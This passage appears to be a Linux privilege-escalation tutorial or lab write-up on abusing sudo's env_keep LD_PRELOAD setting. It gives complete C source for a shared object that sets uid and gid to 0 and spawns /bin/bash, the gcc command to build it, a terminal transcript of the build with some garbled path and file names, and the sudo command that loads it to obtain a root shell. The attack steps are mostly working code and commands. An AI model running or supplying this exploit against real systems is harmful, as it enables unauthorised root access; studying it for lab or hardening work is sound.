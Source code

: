 The steps of this privilege escalation vector can be summarised as follows;

 1. Check for LD_PRELOAD (with the env_keep option)
 2. Write a simple C code compiled as a share object (.so extension) file
 3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

A C code will simply spawn a root shell and can be written as follows;

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

```bash
user@debian:~/ldpreload$ cat shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init () {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
user@debian: ~/dpreload$ ls
shell.c
user@debian:~/dpreload$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
user@debian: ~/dpreload$ ls
shell. shell.so
user@debian:~/ldpreload$
```

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD_PRELOAD option, as follows;

```bash
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

This will result in a shell spawn with root privileges.
